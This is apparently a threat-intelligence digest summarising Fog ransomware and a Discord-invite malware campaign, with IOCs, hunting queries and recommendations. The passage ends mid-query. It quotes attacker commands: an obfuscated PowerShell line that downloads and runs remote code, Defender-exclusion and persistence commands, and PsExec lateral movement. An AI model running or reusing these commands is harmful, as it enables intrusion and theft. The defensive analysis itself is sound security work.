




# The Feed 2025-06-13


## AI Generated Podcast

[Spotify](https://open.spotify.com/episode/7nfI4RuSqYrwzegAP7rRy3?si=Gx6g4GPARnKQ8GSm1nBM8w)

## Table of Contents

- [**Fog Ransomware: Unusual Toolset Used in Recent Attack**](#fog-ransomware-unusual-toolset-used-in-recent-attack): A May 2025 attack on a financial institution in Asia involved the **Fog ransomware**, which utilized an **unusual toolset** including dual-use and open-source pentesting tools not typically seen in ransomware attacks, and notably established **persistence** on the network after deployment.

- [**From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery**](#from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery): Check Point Research uncovered an active multi-stage malware campaign that exploits a flaw in Discord's invitation system, allowing attackers to **hijack expired or deleted invite links** to silently redirect users to malicious servers and deliver payloads such as **AsyncRAT** and a customized **Skuld Stealer**.
 
- [**Global analysis of Adversary-in-the-Middle phishing threats**](#global-analysis-of-adversary-in-the-middle-phishing-threats): This report provides a global analysis of **Adversary-in-the-Middle (AitM) phishing** threats, highlighting the proliferation of **Phishing-as-a-Service (PhaaS)** offerings that harvest session cookies to bypass Multi-Factor Authentication (MFA), and details prevalent kits like Tycoon 2FA and EvilProxy, along with evolving attack tactics.
 
- [**Stealth Falcon's Exploit of Microsoft Zero Day Vulnerability**](#stealth-falcons-exploit-of-microsoft-zero-day-vulnerability): Check Point Research discovered a new campaign by the APT group **Stealth Falcon** that exploited a **zero-day vulnerability (CVE-2025-33053)** in Microsoft Windows, allowing them to execute malware from a WebDAV server and deploy custom implants like the **Horus Agent** for cyber espionage, primarily targeting the Middle East and Africa.
 
- [**TTP of the Cyberpartisans group - espionage and destabilization**](#ttp-of-the-cyberpartisans-group-espionage-and-destabilization): Kaspersky ICS CERT analyzed the TTPs of the **CyberPartisans** hacktivist group, revealing their use of previously unknown backdoors like **Vasilek** that communicate via Telegram groups, wiper malware like **Pryanik** which functions as a logical bomb, and various open-source tools for espionage and IT infrastructure destabilization in Russia and Belarus.

## Fog Ransomware: Unusual Toolset Used in Recent Attack
### Summary
A notable attack in May 2025 targeted a financial institution in Asia, involving the deployment of **Fog ransomware** alongside a highly **unusual and atypical toolset** for a ransomware incident. This particular campaign is distinctive not only for its choice of tools, which included dual-use and open-source penetration testing utilities not commonly observed in ransomware attack chains, but also for the attackers' decision to **establish persistence on the victim's network *after* the ransomware had been deployed**. This post-ransomware persistence is a highly unusual tactic, as malicious activity typically ceases once data exfiltration and encryption are complete. The prolonged access suggests the possibility that the organization may have been targeted for **espionage purposes**, with the ransomware serving as a decoy or a supplementary means of financial gain alongside intelligence collection.

Fog ransomware itself was first documented in May 2024, initially focusing on U.S. educational institutions, leveraging compromised VPN credentials for initial access. Subsequent attacks in October 2024 exploited a critical vulnerability (CVE-2024-40711) in Veeam Backup & Replication (VBR) servers. By April 2025, Fog attackers were observed using email as an initial infection vector, featuring unique ransom notes that seemingly mocked Elon Musk’s Department of Government Efficiency (DOGE) and offered a "decrypt for free" option contingent on the victim spreading the ransomware to another computer. This evolution in tactics and the unusual toolset in the May 2025 attack underscore an adaptive and potentially multi-faceted threat actor group.

### Technical Details
The recent Fog ransomware attack on a financial institution in Asia showcased sophisticated and atypical TTPs, suggesting a potentially more complex motivation than typical ransomware operations. While the initial infection vector for this specific incident remains unknown, two infected machines were identified as Exchange Servers, a common initial access point for ransomware actors. The attackers maintained a presence on the target network for approximately **two weeks** before deploying the ransomware.

**Observed TTPs and Tools:**

*   **Initial Access (Previous Campaigns):**
    *   **Compromised VPN credentials** were used in early Fog attacks targeting educational institutions in the U.S..
    *   Exploitation of a critical vulnerability **(CVE-2024-40711)** in Veeam Backup & Replication (VBR) servers (patched in September 2024) was observed in October 2024 attacks.
    *   **Email as an initial infection vector** was reported in April 2025 campaigns.
    *   For the May 2025 attack, while the initial vector is unknown, **Exchange Servers** were infected, indicating a potential exploit or compromise related to them.
*   **Command and Control (C2) and Post-Exploitation Tools:**
    *   **GC2 (Google Command and Control):** This open-source post-exploitation penetration testing tool was extensively used. It allows attackers to **execute commands on target machines** by polling Google Sheets or Microsoft SharePoint Lists for operator commands. It also facilitates **data exfiltration** using Google Drive or Microsoft SharePoint documents. The tool stores output, logs, and execution polling intervals. GC2 contains two embedded encoded configuration blobs. This tool is highly unusual for ransomware attacks, though it has been previously observed with the Chinese nation-state-backed actor **APT41 in 2023**.
        *   **Observed Discovery Commands Executed by GC2:**
            *   `whoami`
            *   `net use`
            *   `cmd /c "ipconfig /all"`
            *   `cmd /c "netstat -anot|findstr 3389"`
        *   **GC2 Remote Attacker Commands Checked For:**
            *   `"exit"`
            *   `"load"` (with added functionality to load arbitrary files and execute them as shellcode)
            *   `"upload"`
            *   `"download"`
    *   **Adaptix C2 Agent Beacon:** A component of the **Adaptix C2 open-source extensible post-exploitation and adversarial emulation framework**. It's described as an alternative to Cobalt Strike, functioning as a beacon that calls back to the attacker for Command and Control (C&C) access once implanted. The variant found had an encrypted configuration blob.
    *   **Stowaway:** An open-source proxy tool that was used to **deliver the Syteca executable**. This tool is also considered unusual in ransomware attacks.
*   **Information Stealing/Spying:**
    *   **Syteca (formerly Ekran):** A legitimate employee monitoring software, its deployment is highly unusual in a ransomware attack chain. It was delivered by the Stowaway proxy tool. Syteca is capable of **recording onscreen activity and monitoring keystrokes**, leading to the suspicion that it was used for information stealing or spying.
        *   **Attacker Attempts to Delete Syteca Evidence:**
            *   **Removing Libraries via `regsvr32.exe`:**
                *   `CSIDL_SYSTEM\regsvr32.exe" /s /u [REDACTED] Files\Ekran System\Ekran System\Client\SoundCapture_7.20.576.0.dll""`
                *   `CSIDL_SYSTEM\regsvr32.exe" /s /u [REDACTED] Files\Ekran System\Ekran System\Client\x86\SoundCapture_7.20.576.0.dll""`
                *   `CSIDL_SYSTEM\regsvr32.exe" /s /u [REDACTED] Files\Ekran System\Ekran System\Client\CredentialProviderWrapper.dll""`
                *   `CSIDL_SYSTEM\regsvr32.exe" /s /u [REDACTED] Files\Ekran System\Ekran System\Client\CredentialProviderWrapper_7.20.576.0.dll""`
            *   **Killing Syteca Processes via `taskkill.exe`:**
                *   `CSIDL_SYSTEM\taskkill.exe /f /im "EkranClient.exe"`
                *   `CSIDL_SYSTEM\taskkill.exe /f /im "EkranClientSession.exe"`
                *   `CSIDL_SYSTEM\taskkill.exe /f /im "EkranController.exe"`
                *   `CSIDL_SYSTEM\taskkill.exe /f /im "grpcwebproxy.exe"`
                *   `CSIDL_SYSTEM\taskkill.exe /f /im "PamConnectionManager.exe"`
                *   `CSIDL_SYSTEM_DRIVE\program files\ekran system\ekran system\tmp\usbdriverinstaller.exe" -u [REDACTED]`
                *   `CSIDL_SYSTEM_DRIVE\program files\ekran system\ekran system\tmp\usbolddriveruninstaller.exe`
            *   **Deleting Syteca Configuration and Binary via PsExec:**
                *   `psexec64.exe -accepteula \\192.168.8.52 -u <?,?> -p <?,?> -h -s cmd /c "del C:\users\public\SytecaClient.ini"`
                *   `psexec64.exe -accepteula \\192.168.8.150 -u <?,?> -p <?,?> -h -s cmd /c "rm C:\users\public\SytecaClient.exe"`
*   **Lateral Movement:**
    *   **PsExec:** A Microsoft Sysinternals tool commonly used by attackers for **lateral movement**. It was utilized alongside Syteca and GC2.
        *   Used to laterally execute a suspected process watchdog/launcher for the GC2 backdoor: `psexec64.exe -accepteual \\192.168.8.52 -u <?,?> -p <?,?> -h -s cmd /c "CSIDL_COMMON_APPDATA\microsoft\devicesync\windowsdevicesync.exe"`.
    *   **SMBExec:** An open-source lateral movement tool, also commonly employed by ransomware attackers.
        *   Used to launch Syteca: `cmd.exe /Q /c SytecaClient.exe 1> \\127.0.0.1\ADMIN$\__1748095766.8385904 2>&1`.
*   **Data Exfiltration:**
    *   **File Transfer Utilities:** Attackers downloaded **Freefilesync** and **MegaSync**.
    *   **Archiving:** **7-zip** was used to archive sensitive directories.
    *   As noted earlier, **GC2** also has capabilities for exfiltrating files using cloud storage services like Google Drive or Microsoft SharePoint documents.
*   **Persistence:**
    *   A service was specifically created to **establish persistence** on the victim network, *several days after the ransomware was deployed*. This is a critical indicator of potential espionage motives.
    *   **Process Watchdog:** A program designed to continuously enumerate running processes, check for a specific process (e.g., GC2's `AppxModels.exe`), and create it if not found. This ensures the continued operation of critical attacker components.
        *   The GC2 process was named `AppxModels.exe` and located at `C:\ProgramData\Microsoft\Windows\Models\AppxModels.exe`.
    *   **Service Creation Command Example (for persistence):**
        *   `sc create SecurityHealthIron binPath= "CSIDL_SYSTEM\diagsvcs\runtimebroker.exe" start= auto DisplayName= "Collect performance information about an application by using command-line tools."`
        *   Followed by: `sc start SecurityHealthIron`
        *   This newly created service likely serves as another process watchdog to launch attacker C2 tools such as GC2.
*   **Ransomware Deployment:**
    *   On the day Fog ransomware was deployed, the **Impacket SMB tool** was used, suggesting its role in the deployment of the ransomware.

The combination of legitimate monitoring software (Syteca), advanced C2 frameworks (GC2, Adaptix C2 Beacon), and post-ransomware persistence clearly distinguishes this attack, highlighting a sophisticated actor with potentially dual objectives of financial gain and espionage.

### Countries
*   **Asia** (Financial Institution)
*   **U.S.** (Educational Institutions in early Fog attacks)

### Industries
*   **Financial Institution**
*   **Educational Institutions**

### Recommendations
While the source does not provide explicit, general technical recommendations beyond using Symantec products, it emphasizes the importance for **businesses and corporations to be aware of and guard against attacks utilizing such unusual toolsets**.

Organizations should consider the following based on the observed TTPs:
*   **Enhance endpoint detection and response (EDR)** to identify and block the execution of unusual dual-use tools and open-source pentesting frameworks like GC2, Adaptix C2, and Stowaway.
*   **Implement strict controls on legitimate software usage** to prevent abuse of tools like Syteca (Ekran), which can be weaponized for information stealing and monitoring.
*   **Monitor for persistence mechanisms**, particularly the creation of new services or scheduled tasks, even after a ransomware event has occurred. Pay close attention to unexpected process watchdogs.
*   **Regularly patch and update critical systems**, especially those exposed to the internet like Exchange Servers and backup solutions (e.g., Veeam Backup & Replication), as these have been initial infection vectors for Fog ransomware previously.
*   **Strengthen multi-factor authentication (MFA)** and monitor for VPN credential compromises, as these have also been initial access vectors.
*   **Improve email security controls** to detect and block phishing attempts that could serve as initial infection vectors.
*   **Implement robust network segmentation and access controls** to limit lateral movement across the network, even if tools like PsExec and SMBExec are used.
*   **Monitor for unusual data archiving and transfer activities**, especially the use of utilities like Freefilesync, MegaSync, and 7-zip on sensitive directories.
*   **Consider behavioral analytics** that can flag atypical process execution chains, unusual C2 communications (e.g., over Google Sheets), or attempts to delete forensic evidence.

### Hunting methods
The provided source does not contain specific Yara, Sigma, KQL, SPL, IDS/IPS, or WAF rules. However, the identified IOCs and TTPs can be used to construct effective hunting queries.

**Based on the provided information, here are potential hunting methods and logic:**

*   **Process Creation/Execution Monitoring:**
    *   **GC2 Activity:** Hunt for process creation events related to GC2, especially its filename `AppxModels.exe` and its common path `C:\ProgramData\Microsoft\Windows\Models\`. Look for `cmd.exe` executions that contain the specific `whoami`, `net use`, `ipconfig /all`, or `netstat -anot|findstr 3389` commands as executed by GC2.
    *   **Syteca Execution:** Monitor for `sytecaclient.exe` or `update.exe` process executions, particularly if they are launched via a proxy tool like Stowaway or via SMBExec.
    *   **PsExec/SMBExec Lateral Movement:** Look for `psexec64.exe` or `smbexec.exe` executions that involve remote command execution (`-accepteula \\<IP> -s cmd /c ...`) or specific process launches like the suspected GC2 watchdog. Monitor for `smbexec.exe` launching `SytecaClient.exe`.
    *   **Process Watchdog Activity:** Hunt for any process that continuously enumerates other processes and, if a specific process (e.g., `AppxModels.exe`) is not found, attempts to create it. Use the provided hashes for Process Watchdog variants.
*   **Service Creation Monitoring:**
    *   **Persistence Service:** Look for new service creations, especially those named "SecurityHealthIron" or with a `binPath` to `CSIDL_SYSTEM\diagsvcs\runtimebroker.exe` and `start= auto`, as seen with the persistence mechanism.
    *   **Query Logic (e.g., KQL for Windows Event Logs):**
        ```kql
        SecurityEvent
        | where EventID == 4697 // A service was installed on the system.
        | where ServiceName contains "SecurityHealthIron" or ServiceFileName contains "diagsvcs\\runtimebroker.exe"
        // Also look for other suspicious service creations by unknown binaries or unusual paths
        ```
*   **File System Activity:**
    *   **Syteca Cleanup:** Monitor for file deletion events (`del`, `rm`) targeting `C:\users\public\SytecaClient.ini` or `C:\users\public\SytecaClient.exe`. Also, look for `regsvr32.exe` calls with the `/s /u` flags specifically targeting Syteca-related DLLs.
    *   **Archiving/Exfiltration Tools:** Monitor for the creation and execution of file transfer utilities like `Freefilesync.exe`, `MegaSync.exe`, and archiving tools like `7z.exe` (or `7za.exe`) being used to compress sensitive directories.
*   **Network Connections:**
    *   **C2 Communication:** Monitor network traffic for connections to the identified C2 IP addresses and domains associated with GC2 or Adaptix C2. Look for unusual outgoing connections to Google Sheets, Microsoft SharePoint, Google Drive, or Microsoft SharePoint documents if GC2 is suspected.
    *   **Netstat Monitoring:** Look for outbound connections using `netstat -anot|findstr 3389`.
*   **Hash-Based Hunting:**
    *   Utilize the provided file hashes against endpoint logs, threat intelligence platforms, or file system scans to identify the presence of Fog ransomware, Process Watchdog, GC2, Syteca, Stowaway, or Adaptix C2 Beacon Agent binaries.
    *   **Query Logic (example for endpoint logs like Sysmon/EDR):**
        ```kql
        DeviceFileEvents
        | where SHA256 in ("181cf6f9b656a946e7d4ca7c7d8a5002d3d407b4e89973ecad60cee028ae5afa", "90a027f44f7275313b726028eaaed46f6918210d3b96b84e7b1b40d5f51d7e85", ...)
        ```
*   **Ransomware Deployment:**
    *   Monitor for the use of Impacket SMB tools shortly before or during observed encryption events.

### IOC
**Hashes**
```
181cf6f9b656a946e7d4ca7c7d8a5002d3d407b4e89973ecad60cee028ae5afa
90a027f44f7275313b726028eaaed46f6918210d3b96b84e7b1b40d5f51d7e85
f6cfd936a706ba56c3dcae562ff5f75a630ff5e25fcb6149fe77345afd262aab
fcf1da46d66cc6a0a34d68fe79a33bc3e8439affdee942ed82f6623586b01dd1
4d80c6fcd685961e60ba82fa10d34607d09dacf23d81105df558434f82d67a5e
8ed42a1223bfaec9676780137c1080d248af9ac71766c0a80bed6eb4a1b9b4f1
e1f571f4bc564f000f18a10ebb7ee7f936463e17ebff75a11178cc9fb855fca4
f1c22cbd2d13c58ff9bafae2af33c33d5b05049de83f94b775cdd523e393ec40
279f32c2bb367cc50e053fbd4b443f315823735a3d78ec4ee245860043f72406
b448321baae50220782e345ea629d4874cbd13356f54f2bbee857a90b5ce81f6
f37c62c5b92eecf177e3b7f98ac959e8a67de5f8721da275b6541437410ffae1
3d1d4259fc6e02599a912493dfb7e39bd56917d1073fdba3d66a96ff516a0982
982d840de531e72a098713fb9bd6aa8a4bf3ccaff365c0f647e8a50100db806d
fd9f6d828dea66ccc870f56ef66381230139e6d4d68e2e5bcd2a60cc835c0cc6
bb4f3cd0bc9954b2a59d6cf3d652e5994757b87328d51aa7b1c94086b9f89be0
ba96c0399319848da3f9b965627a583882d352eb650b5f60149b46671753d7dd
44bb7d9856ba97271d8f37896071b72dfbed2d9fb6c70ac1e70247cddbd54490
13d70c27dfa36ba3ae1b10af6def9bf34de81f6e521601123a5fa5b20477f277
```

**IPs**
```
66.112.216[.]232
97.64.81[.]119
```

**Domains**
```
amanda[.]protoflint[.]com
```

**Original link:** [https://www.security.com/blogs/threat-intelligence/fog-ransomware-attack](https://www.security.com/blogs/threat-intelligence/fog-ransomware-attack)


## From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery

### Summary
Check Point Research has identified an **active and evolving malware campaign** that weaponizes Discord's invitation system, transforming trusted links into a stealthy conduit for multi-stage malware delivery. Threat actors are exploiting a flaw that allows them to **hijack expired or released Discord invite links** by re-registering them as custom vanity links. This means users clicking on old, legitimate Discord invite links (e.g., from forums, social media, or official websites) can be silently redirected to malicious servers controlled by the attackers.

The campaign employs a sophisticated chain of techniques, including the **ClickFix phishing method**, multi-stage loaders, and time-based evasions, specifically designed to bypass traditional security detections like antivirus tools and sandbox security checks. A key characteristic of this operation is its reliance on **trusted cloud services** such as GitHub, Bitbucket, Pastebin, and Discord itself, for all payload delivery and data exfiltration, allowing the malicious traffic to blend seamlessly with normal network activity and avoid raising alarms.

The primary payloads observed are **AsyncRAT**, a versatile Remote Access Trojan (RAT) providing full remote control, and a customized variant of **Skuld Stealer**, specifically engineered to target cryptocurrency wallets. The campaign demonstrates continuous evolution, notably adapting to bypass Chrome’s App Bound Encryption (ABE) to steal cookies from modern Chromium browsers using a tool based on ChromeKatz. The financial motivation behind these attacks is evident through the focus on stealing sensitive cryptocurrency wallet data, including seed phrases and passwords. While Discord has taken action against the specific malicious bot observed, the underlying vulnerability allowing invite link hijacking persists, indicating a continued risk.

### Technical Details
This sophisticated multi-stage campaign initiates by exploiting a vulnerability in Discord's invite system. Attackers hijack **expired or deleted Discord invite codes**, particularly temporary and custom vanity links, by re-registering them as custom vanity invite URLs for their own malicious, boosted servers. Even temporary invites with uppercase letters can be hijacked, as vanity codes are stored and compared in lowercase. A common user misconception regarding the "Set this link to never expire" option for temporary invites is also exploited, leading to the publication of links that eventually expire and become vulnerable to hijacking.



Upon a user clicking a hijacked link, they are redirected to a **malicious Discord server** meticulously designed to appear legitimate. Most channels are locked, except for a "verify" channel where a bot named "Safeguard" prompts users to complete a verification step. Authorizing this bot grants it access to basic user profile details (username, avatar, banner) and redirects the user to an **external phishing website**, `captchaguard[.]me`.

The phishing website mimics Discord’s UI and employs the **ClickFix social engineering technique**. It initially presents a "Verify" button that, when clicked, silently copies a malicious PowerShell command to the user's clipboard. Subsequently, a fake Google CAPTCHA failure is displayed, instructing the user to manually "fix" it by opening the Windows Run dialog (Win + R), pasting the copied command, and pressing Enter. This method cleverly avoids traditional red flags like direct file downloads.



The PowerShell command is base64-encoded and downloads the first-stage downloader from Pastebin. An example command observed is:
`powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';$u=($r[-1..-($r.Length)]-join '');$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));iex (iwr -Uri $url)"`.

This decoded command retrieves a PowerShell script from `https://pastebin[.]com/raw/zW0L2z2M`. The Pastebin script, which exhibits an **extremely low detection rate** by antivirus engines, is responsible for downloading and executing `installer.exe` from GitHub. Threat actors actively update the GitHub URL in the Pastebin script to evade blocking, making them highly agile. The script itself is simple, hiding the PowerShell console window and downloading the executable using `System.Net.WebClient` before launching it with `Start-Process -FilePath $exePath -ArgumentList "-arg1" -NoNewWindow`.

The **first-stage downloader, `installer.exe`** (SHA256: `673090abada8ca47419a5dbc37c5443fe990973613981ce622f30e83683dc932`), also has a very low detection rate, with newer variants achieving zero detections. Written in C++, it uses **extensive junk code and XOR obfuscation** for strings and API calls to complicate static analysis and detection. A critical evasion technique is its reliance on command-line arguments: it only initiates malicious operations if executed with "-arg1" or "-arg2" (provided by the initial PowerShell script); otherwise, it performs benign junk calls and exits, fooling sandbox environments.

Upon execution with the correct argument, the downloader creates the directory `C:\\Users\\%USERNAME%\\AppData\\Local\\ServiceHelper\\`. It then establishes **persistence and evasion** by creating two Visual Basic scripts:
1.  **`nat1.vbs`**: This script adds the user's directory to Windows Defender exclusion paths to avoid detection. It also creates a scheduled task named "**checker**" set to run `runsys.vbs` every 5 minutes with the highest privileges. Furthermore, it creates a placeholder file named `settings.txt` as an execution flag.
    *   **Observed command to add Defender exclusion:** `PowerShell -Command Add-MpPreference -ExclusionPath 'C:\\users\\<username>'`
    *   **Observed command to create scheduled task:** `schtasks /create /tn ""checker"" /tr ""wscript.exe \\""C:\\Users\\<username>\\AppData\\Local\\ServiceHelper\\runsys.vbs\\"""" /sc MINUTE /mo 5 /RL HIGHEST`
2.  **`runsys.vbs`**: This simple script silently executes the second-stage payload: `WshShell.Run """C:\\Users\\%UserName%\\AppData\\Local\\ServiceHelper\\syshelpers.exe""", 0, False`.

The `installer.exe` then downloads two encrypted payloads from Bitbucket using the User-agent string `Dynamic WinHTTP Client/1.0`. These files (`skul.exe` and `Rnr.exe`) are decrypted using a simple XOR-based algorithm, effectively preventing their detection while hosted on Bitbucket.
*   `skul.exe` is saved as `searchHost.exe` and executed immediately via `CreateProcessW`. This is the **Skuld Stealer payload**.
*   `Rnr.exe` is saved as `syshelpers.exe` and executed every 5 minutes by the `checker` scheduled task. This is the **second-stage downloader**.

The **second-stage downloader (`Rnr.exe` / `syshelpers.exe`)** (decrypted SHA256: `5d0509f68a9b7c415a726be75a078180e3f02e59866f193b0a99eee8e39c874f`) shares obfuscation and User-Agent similarities with the first-stage downloader. It downloads an encrypted payload (`AClient.exe`) from Bitbucket (e.g., `https://bitbucket[.]org/updatevak/upd/downloads/AClient.exe`). A notable **sandbox evasion technique** involves a **three-stage time delay**: on first execution, it downloads the payload as `updatelog` (no extension) and exits. Five minutes later, the scheduled task re-executes it, leading to decryption of `updatelog` into `syshelp.exe`. Another five minutes later, on the third execution, `syshelp.exe` is finally run. This **15-minute delay** is designed to bypass many automated sandbox systems.

The **AsyncRAT payload (`AClient.exe`)** (decrypted SHA256: `53b65b7c38e3d3fca465c547a8c1acc53c8723877c6884f8c3495ff8ccc94fbe`) is an open-source Remote Access Trojan (RAT) providing extensive control over infected systems, including command execution, keylogging, screen capturing, file management, and remote desktop/camera access. It uses a "dead drop resolver" technique, retrieving its Command and Control (C2) server address from a Pastebin document (e.g., `https://pastebin[.]com/raw/ftknPNF7`).

The **Skuld Stealer payload (`skul.exe`)** (decrypted SHA256: `8135f126764592be3df17200f49140bfb546ec1b2c34a153aa509465406cb46c`) is a modified variant of the open-source Skuld Stealer. Unlike the public version, this variant lacks anti-debugging, crypto clipper, and built-in persistence, relying entirely on the externally scheduled task for continuous operation. It creates a mutex named `3575651c-bb47-448e-a514-22865732bbc` to prevent multiple instances. Skuld uses **two separate, XOR-encrypted Discord webhooks** for data exfiltration:
*   The first webhook is for general data like browser credentials, system information, and Discord tokens.
*   The second webhook is specifically for highly sensitive crypto wallet seed phrases and passwords from **Exodus** and **Atomic** wallets.

A key malicious technique employed by Skuld is **wallet injection**, where it replaces legitimate `.asar` archive files of targeted cryptocurrency applications (Exodus and Atomic wallets) with modified malicious versions downloaded from GitHub. It also drops fake `LICENSE` text files within the wallet directories containing the webhook URLs. When users interact with their compromised wallets (e.g., entering a password), the injected malicious JavaScript intercepts sensitive data, such as the seed phrase and password from the `unlock` function, and exfiltrates it to the attacker via the dedicated Discord webhook. Obtaining the seed phrase grants attackers full control over the user's cryptocurrency funds.

The campaign has also **evolved to incorporate new modules**, notably adapting the open-source **ChromeKatz tool** to steal cookies from updated Chromium-based browsers (Chrome, Edge, Brave), bypassing Google’s Application-Bound Encryption (ABE). This `cks.exe` payload (decrypted SHA256: `f08676eeb489087bc0e47bd08a3f7c4b57ef5941698bc09d30857c6507638559c`) operates directly within the browser's memory, bypassing file-based decryption. It identifies the correct browser process (`chrome.exe`, `msedge.exe`, `brave.exe`) and specifically targets the `NetworkService` child process (identified by the command-line argument `--utility-sub-type=network.mojom.NetworkService`) to extract cookies in their decrypted form. The stolen cookies are archived into `exported_cookies.zip` and sent via a Discord webhook. This module also employs string encryption and checks for the `settings.txt` file for sandbox evasion.

An **additional campaign targeting gamers** by the same threat actors was identified, distributing the same loader framework, Skuld Stealer, and AsyncRAT payloads via a Trojanized hacktool for *The Sims 4* DLC (`Sims4-Unlocker.zip`) hosted on Bitbucket.

### Countries
Victims of this campaign have been observed across various countries, including:
*   United States
*   Vietnam
*   France
*   Germany
*   Slovakia
*   Austria
*   Netherlands
*   United Kingdom

### Industries
While not explicitly stated as "industries," the primary targets identified are:
*   **Cryptocurrency users**
*   **Gamers**, specifically those playing games like *The Sims 4*
*   General Discord users and communities

### Recommendations
*   **Educate Users on Discord Invite Link Behavior**: Inform users that old or temporary Discord invite links can be hijacked and lead to malicious servers. Advise caution when clicking on any Discord invite, especially if it's from an older post or an unexpected source.
*   **Promote Use of Permanent Invite Links with Mixed Case Characters**: For legitimate servers, encourage the creation of permanent invite links that include uppercase letters, as these are more resistant to hijacking.
*   **User Awareness on Social Engineering**: Train users to recognize and avoid the ClickFix phishing technique. Emphasize that legitimate services will not ask users to manually execute commands copied to their clipboard to "fix" issues.
*   **Beware of Unofficial Software/Hacktools**: Warn users against downloading and executing pirated software, "hacktools," or unlockers, as these are common vectors for malware delivery, as seen with the *The Sims 4* campaign.
*   **Implement Endpoint Detection and Response (EDR)**: Deploy and actively monitor EDR solutions, such as Check Point Harmony Endpoint, which provide comprehensive coverage against the attack tactics, file types, and operating systems involved in this campaign.
*   **Network Monitoring for Suspicious Cloud Service Usage**: Monitor network traffic for unusual usage patterns of legitimate cloud services (GitHub, Bitbucket, Pastebin, Discord webhooks) for payload delivery and data exfiltration.
*   **Promptly Address Discord Invite Link Issues**: If operating a Discord server, regularly review and manage invite links. If a server loses its premium boost, be aware that its custom vanity link can be quickly re-registered by attackers.

### Hunting Methods
To aid SOC, TI, IR, and Threat Hunting teams, here are specific hunting methods based on the TTPs observed in this campaign:

*   **Process Creation & Scheduled Tasks**:
    *   **Logic**: Look for processes creating the `ServiceHelper` directory and the specific Visual Basic scripts (`nat1.vbs`, `runsys.vbs`) within `AppData\\Local`. Monitor for the creation of new scheduled tasks, especially those named "checker" running VBScripts with high privileges.
    *   **Query**:
        ```
        ProcessCreation
